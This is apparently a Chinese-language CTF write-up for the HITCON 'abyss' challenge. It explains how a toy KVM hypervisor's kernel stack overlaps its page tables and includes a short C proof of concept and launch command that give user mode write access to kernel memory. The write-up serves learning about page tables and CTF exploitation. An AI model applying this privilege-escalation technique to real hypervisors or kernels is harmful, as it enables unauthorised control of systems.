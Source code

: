 # abyss WP

### 漏洞点

1. 在hypervisor的setup_paging函数里，首先安装了这么的页表：

   ```c
   
   #define PS_LIMIT (0x200000)
   #define KERNEL_STACK_SIZE (0x4000)
   #define MAX_KERNEL_SIZE (PS_LIMIT - 0x5000 - KERNEL_STACK_SIZE)
   #define MEM_SIZE (PS_LIMIT * 0x10)
   
     uint64_t pml4_addr = MAX_KERNEL_SIZE;
     uint64_t *pml4 = (void*) (vm->mem + pml4_addr);
   
     uint64_t pdp_addr = pml4_addr + 0x1000;
     uint64_t *pdp = (void*) (vm->mem + pdp_addr);
   
     uint64_t pd_addr = pdp_addr + 0x1000;
     uint64_t *pd = (void*) (vm->mem + pd_addr);
   
     pml4[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pdp_addr;
     pdp[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pd_addr;
     pd[0] = PDE64_PRESENT | PDE64_RW | PDE64_PS; /* kernel only, no PED64_USER */
   
     sregs.cr3 = pml4_addr;
     sregs.cr4 = CR4_PAE;
   ```

   PDE_PS标志位开启，说明其映射的是一个2M（0x200000）的页到0地址；这部分接下来会作为内核代码的起始地址。

   从这段代码我们可以看见，内核最大的大小只能是0x1f7000, 接下来的0x5000空间是给内核页表使用的。0~0x1000是pml，0x1000~0x2000是pdp，0x2000~0x3000是pd。

2. 然后在kvm_init里会调用setup_regs函数去初始化虚拟机运行的寄存器：

   ```c
   regs.rip = entry;
   regs.rsp = MAX_KERNEL_SIZE + KERNEL_STACK_SIZE; /* temporary stack */
   regs.rdi = PS_LIMIT; /* start of free pages */
   regs.rsi = MEM_SIZE - regs.rdi; /* total length of free pages */
   regs.rflags = 0x2;
   ```

   可以看见，RSP被设置成了MAX_KERNEL_SIZE + KERNEL_STACK_SIZE，也就是MAX_KERNEL_SIZE + 0x4000 (0x1f7000+0x4000=0x1fb000 )。

3. 然后在执行内核代码之前，会调用copy_argv将hypervisor程序的第3个之后的参数压栈：

   ```c
   copy_argv(vm, argc - 2, &argv[2]);
   ```

   4. 然后内核初始化自己页表，调用init_pagetable函数:

```c
/* Maps
 *  0x8000000000 ~ 0x8002000000 -> 0 ~ 0x2000000
 */
void init_pagetable() {
  uint64_t* pml4;
  asm("mov %[pml4], cr3" : [pml4]"=r"(pml4));
  uint64_t* pdp = (uint64_t*) ((uint64_t) pml4 + 0x3000);
  pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; // 0x8000000000
  uint64_t* pd = (uint64_t*) ((uint64_t) pdp + 0x1000);
  pdp[0] = PDE64_PRESENT | PDE64_RW | (uint64_t) pd;
  for(uint64_t i = 0; i < 0x10; i++)
    pd[i] = PDE64_PRESENT | PDE64_RW | PDE64_PS | (i * KERNEL_PAGING_SIZE);
}
```

  `pml4[1]`代表这个1级页表所表示的空间从0x8000000000（1<<47）开始到（1<< 48）-1。

   然后可以看见  MAX_KERNEL_SIZE+0x3000（0x1fa000）的部分作为pml4的第1项，然后MAX_KERNEL_SIZE+0x4000（0x1fb000）的部分作为pml4第1项的pdp的第0项，也就是pd的起始地址。

   MAX_KERNEL_SIZE+0x4000刚好是内核栈的栈顶，也就是通过系统调用（参数压入内核栈），我们可以修改pdp的内容。

   所以，我们的目标是，添加一个页表的表项，设置其标识位，使得我们可以在用户态访问这个页表的虚拟地址，这个页表的虚拟地址被同样映射到了虚拟机的物理0地址，也就是内核的起始地址。

### 尝试

  有了思路之后，我们就开始尝试利用。

*1*    我们需要mmap一块空间，使其作为pdp的项，这个表项的内容是0x87，代表其映射的地址是物理地址0，其标识位的为`PDE64_PRESENT | PDE64_RW | PDE64_USER| PDE64_PS` 。也就是用户态可以访问这个高地址。

*2*    我们需要算出前面mmap地址所对应的内核物理地址，将这个物理地址 |   PDE64_PRESENT | PDE64_RW | PDE64_USER ，填入pdp中作为其中的一项。 （这里查找mmap物理地址的方法是查找内存中的magic number）

*3*    但是因为PIE的原因，这个内核物理地址会改变，因为需要做一定的喷射，增加命中概率。

*4*     计算表项的所对应的虚拟地址（内核空间），在用户空间修改其内容就可以修改内核。

然而经过多次的尝试，可以发现这样是不可能成功。 因为 ` pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; `代码限制了页表的内容是不可以被用户空间所访问的，所以改变0x3000到0x4000的页表并不会生效。

### 利用

 然后注意到很关键的一个点，就是`pml[0]中的pdp[0]的pd`我们是可以有机会修改的，只要我们能把栈往前推一个页面的大小。又因为hypervisor的命令行参数会被压入内核栈中，所以在hypervisor中加入一个页面大小的garbage参数就可以完成前面的利用效果。

  POC：

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <syscall.h>
#include <unistd.h>

//#define KERNEL_BASE ((char*)0xf740000000)
#define KERNEL_BASE ((char*)0x3b400000)  //hex((0xed0 >> 3)<< 21)
int main() {
  printf("Hello!\n");
  unsigned long edit = (long)KERNEL_BASE;
  char buf[22];
  syscall(0, 0, buf, 1, 0x87,0x87,0x87);
  *(long*)edit = 0xdeadbeef12345679;
  while(1){
    putchar(getchar());
    fflush(stdout);
  }
  return 0;
}
```

然后启动hypervisor:

```c
./hypervisor.elf kernel.bin ld.so ./user.elf `python -c 'print "a"*4096'`
```

### 最后

 感觉比赛的时候都没人仔细看这个题。

这个题的发现和利用需要做题人本身对操作系统中页表和地址转换的知识点比较熟悉。

感谢david942j在hitcon出了这么一个有趣的题目，让我学到了不少东西。

和操作系统搏斗比和libc搏斗有意思的多。 
